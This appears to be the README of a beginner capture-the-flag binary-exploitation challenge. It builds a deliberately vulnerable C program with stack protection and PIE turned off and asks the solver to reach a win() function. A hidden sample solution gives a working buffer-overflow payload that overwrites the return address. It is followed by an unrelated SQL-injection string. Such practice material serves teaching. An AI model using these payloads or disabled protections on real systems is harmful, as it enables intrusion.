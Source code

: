 # Binary Exploit CTF Challenge

## Description
A simple c code practicing Binary Exploit. Try to access the win() function to get the flag!

## How to Run Locally

1. Build the C file:

  ```bash
    gcc vuln.c -o vuln -no-pie -fno-stack-protector
  ```

## Files
- `vuln.c` - Functionality

## Note
- The goal is to access win() in some way.
- the name array has 16 bytes

<details>
  <summary>Sample solution</summary>
  python3 -c 'import sys; sys.stdout.buffer.write(b"A"*24 + b"\x76\x11\x40\x00\x00\x00\x00\x00" + b"\x00"*8)' | ./vuln
  <b>admin' --</b>

</details>
